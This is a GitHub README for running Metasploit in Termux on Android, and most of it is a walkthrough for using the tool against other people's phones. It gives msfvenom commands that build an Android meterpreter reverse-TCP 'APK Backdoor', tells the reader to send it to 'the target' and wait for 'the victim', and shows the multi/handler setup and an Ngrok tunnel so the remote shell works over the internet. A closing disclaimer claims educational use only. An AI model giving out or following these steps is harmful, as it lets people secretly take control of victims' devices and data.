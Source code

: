 # Metasploit Framework 6 in Termux
[![GitLab Testing status](https://gitlab.com/gushmazuko/metasploit_in_termux/badges/master/pipeline.svg)](https://gitlab.com/gushmazuko/metasploit_in_termux/-/pipelines) ![GitHub Repo stars](https://img.shields.io/github/stars/gushmazuko/metasploit_in_termux?style=social) [![](https://img.shields.io/badge/GitLab-Mirror-succes?link=https://gitlab.com/gushmazuko/metasploit_in_termux)](https://gitlab.com/gushmazuko/metasploit_in_termux)

![Metasploit 6 running](https://i.postimg.cc/hv5xQJkd/photo-2025-07-15-13-13-51.jpg)


---

## 📱 Requirements

- Android Device
- Termux App (latest version from [F-Droid](https://f-droid.org/en/packages/com.termux/))
- Minimum 2GB Free Storage
- Stable Internet Connection

---

## ⚙️ Installation Steps

```bash
pkg update && pkg upgrade -y
pkg install git -y
git clone https://github.com/Pythonds100/metasploit_in_termux
cd metasploit_in_termux
bash metasploit.sh
```

This script will download and install the latest version of Metasploit Framework with all required dependencies.

---

## 🧰 Launching Metasploit

Once installed, open it anytime by typing:

```bash
msfconsole
```

Wait for it to load fully.

---

## 💣 How to Create a Payload (APK Backdoor)

Generate a malicious APK file using the following command:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<your-port> -o /sdcard/payload.apk
```

🔁 Replace:

- `<your-ip>` → Your local or public IP address  
- `<your-port>` → Any open port (e.g., `4444`)

**Example:**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -o /sdcard/payload.apk
```

Send this APK to the target. When they install and open it, you will get access.

---

## 🧲 Set Up the Listener (Exploit Handler)

Start Metasploit and run:

```bash
msfconsole
```

Then type the following:

```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT <your-port>
exploit
```

Wait for the victim to run the payload. You’ll receive a Meterpreter session upon successful connection.

---

## 🌐 How to Find Your IP Address

### ✅ For Local Network (WiFi):

```bash
ip a
```
Look for `inet` IP like `192.168.x.x`

### ✅ For Public IP:

Go to: [https://whatismyipaddress.com](https://whatismyipaddress.com)

---

## 🌍 Optional: Use Ngrok (for Internet access)

If you're behind NAT or want to use Metasploit over the internet, use **Ngrok**.

### 🔹 Step 1: Install Ngrok

```bash
pkg install wget unzip -y
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip
chmod +x ngrok
```

### 🔹 Step 2: Start a Tunnel

```bash
./ngrok tcp 4444
```

Ngrok will give you something like `tcp://0.tcp.ngrok.io:12345`

Use:

- `LHOST = 0.tcp.ngrok.io`
- `LPORT = 12345`

in your payload and listener.

---

## 🙋 Author & Credits

**Developed by:**  
- 📺 YouTube: [@𝐃𝐔𝐑𝐆𝐄𝐒𝐇 𝐄𝐗𝐏𝐋𝐎𝐈𝐓𝐒](https://youtube.com/@durgeshexploits)
- 💬 Telegram: [@𝐃𝐔𝐑𝐆𝐄𝐒𝐇 𝐄𝐗𝐏𝐋𝐎𝐈𝐓𝐒](https://t.me/ExploitsAbout)

---

## ⚠️ Disclaimer

> 🛑 This tool is made for **educational purposes only**.  
> Unauthorized access to devices or systems is **illegal**.  
> The developer is **not responsible** for any kind of misuse.  
> Use this only in legal environments like **your own devices, lab setups, or with permission**.

---

## 🌟 Support

If you find this project useful, please consider giving it a ⭐ on GitHub:

```bash
git clone https://github.com/Pythonds100/metasploit_in_termux
```

Pull requests and suggestions are welcome!

---
